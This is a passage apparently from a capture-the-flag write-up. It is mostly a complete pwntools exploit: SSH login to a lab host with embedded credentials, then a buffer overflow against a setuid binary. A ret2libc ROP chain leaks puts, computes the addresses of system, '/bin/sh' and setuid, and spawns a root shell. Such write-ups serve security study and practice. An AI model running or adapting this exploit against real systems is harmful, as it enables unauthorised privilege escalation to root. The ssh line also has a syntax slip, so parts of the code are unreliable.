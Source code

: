 What we are going to do is: pop rdi, and set the it to 0, then call setuid, so we are root, then we pop_rdi and we set it to `/bin/sh` and call system and we have a shell

```python
glibc = puts_leak - 0x0809c0
glibc_system = glibc + 0x04f440
glibc_bin_sh = glibc + 0x1b3e9a
glibc_setuid = glibc + 0xe5970
```

### Final exploit

```python
from pwn import * 


s = ssh(user="margo",password="iamgod$08",host="10.10.10.139"                   
p = s.run("/usr/bin/garbage")

# GADGETS
pop_rdi = p64(0x40179b)

# ADDRESSES
main = p64(0x401619)
puts_got = p64(0x404028)
puts_plt = p64(0x401050)

# 1 - Leaking libc address
payload = b"a"*136 #offset
payload += pop_rdi
payload += puts_got
payload += puts_plt
payload += main

p.recvuntil(":")
p.sendline(payload)
p.recvuntil("access denied.\n")

puts_leak = u64(p.recv()[:8].strip().ljust(8,b"\x00"))
log.info(f"PUTS LEAK: {hex(puts_leak)}")

glibc = puts_leak - 0x0809c0
glibc_system = glibc + 0x04f440
glibc_bin_sh = glibc + 0x1b3e9a
glibc_setuid = glibc + 0xe5970

# 2 - Getting a root shell

payload = b"a"*136
payload += pop_rdi
payload += p64(0)
payload += p64(glibc_setuid)
payload += pop_rdi
payload += p64(glibc_bin_sh)
payload += p64(glibc_system)

p.sendline(payload)
p.interactive()
```
